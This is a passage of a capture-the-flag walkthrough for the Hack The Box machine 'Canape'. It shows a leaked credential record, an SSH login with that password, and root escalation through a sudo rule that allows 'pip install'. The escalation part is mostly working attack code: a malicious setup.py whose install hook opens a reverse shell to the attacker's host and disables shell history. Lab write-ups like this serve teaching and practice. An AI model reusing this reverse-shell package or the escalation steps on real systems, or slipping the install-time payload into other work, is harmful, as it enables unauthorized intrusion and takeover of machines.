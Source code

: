 ```
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```

Homer's password is ours!

We can SSH in on port 65535.

```
root@kali:~/htb/canape# ssh homer@10.10.10.70 -p 65535
homer@10.10.10.70's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Apr 10 12:57:08 2018 from 10.10.14.5
homer@canape:~$
```

## Root Privilege Escalation

If we check homer's sudo permissions we can see he's able to run `pip install` as root.

```
homer@canape:~$ sudo -l
[sudo] password for homer: 
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

To exploit this, we can simply create a malicious python package that will run code when it's installed. To do this we can create a `setup.py` file on our attacking box with the following.

```python
import os
import pty
import socket

from setuptools import setup
from setuptools.command.install import install

class MyClass(install):
    def run(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.14.14", 443))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        os.putenv("HISTFILE",'/dev/null')
        pty.spawn("/bin/bash")
        s.close()
	
setup(
    cmdclass={
        "install": MyClass
    }
)
```
